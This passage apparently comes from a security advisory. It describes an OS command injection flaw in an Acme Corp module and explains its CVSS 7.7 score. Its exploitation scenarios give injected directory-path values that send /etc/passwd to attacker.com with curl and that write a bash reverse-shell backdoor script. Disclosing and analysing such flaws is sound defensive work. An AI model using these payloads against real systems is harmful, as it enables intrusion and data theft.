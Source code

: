 This vulnerability allows attackers to inject shell metacharacters (such as `;`, `&&`, or backticks) to terminate the intended command and execute additional arbitrary OS commands with the privileges of the application process. Given the critical role of this module in Acme Corp's operations, successful exploitation could lead to system compromise, data exfiltration, and severe operational disruption.

# CVSS
**Score**: 7.7 \
**Vector**: CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H \
**Severity**: High

The High severity rating is based on the following factors:

- **Attack Vector (Local)**: The vulnerability requires local access to the system where the application is running, as the attacker must be able to provide input to the application.

- **Attack Complexity (Low)**: Exploiting this vulnerability is straightforward and doesn't require special conditions or timing. An attacker simply needs to input shell metacharacters to execute arbitrary commands.

- **Privileges Required (Low)**: The attacker needs basic user privileges to run the application and provide input.

- **User Interaction (None)**: No additional user interaction is required once the attacker has access to the application.

- **Scope (Unchanged)**: The vulnerability affects resources managed by the same security authority. The commands execute with the same privileges as the application process.

- **Confidentiality Impact (High)**: An attacker can access sensitive files and data accessible to the process running the application.

- **Integrity Impact (High)**: An attacker can modify files and data accessible to the process running the application.

- **Availability Impact (High)**: An attacker can execute commands that could crash the system, delete critical files, or otherwise impact system availability.

The combined impact and exploitability metrics result in a CVSS score of 7.7, which corresponds to a High severity rating.

# Exploitation Scenarios
**Scenario 1: Data Exfiltration**
An attacker inputs the following when prompted for a directory path:
`/tmp; cat /etc/passwd | curl -d @- https://attacker.com/collect`

This causes the application to:
1. Execute `ls /tmp` (the intended command)
2. Execute `cat /etc/passwd` to read system user information
3. Pipe this data to curl, which sends it to the attacker's server

This scenario allows the attacker to steal sensitive system information without leaving obvious traces.

**Scenario 2: Malicious File Creation**
An attacker inputs:
`/tmp; echo '#!/bin/bash\nbash -i >& /dev/tcp/attacker.com/4444 0>&1' > /tmp/backdoor.sh; chmod +x /tmp/backdoor.sh`
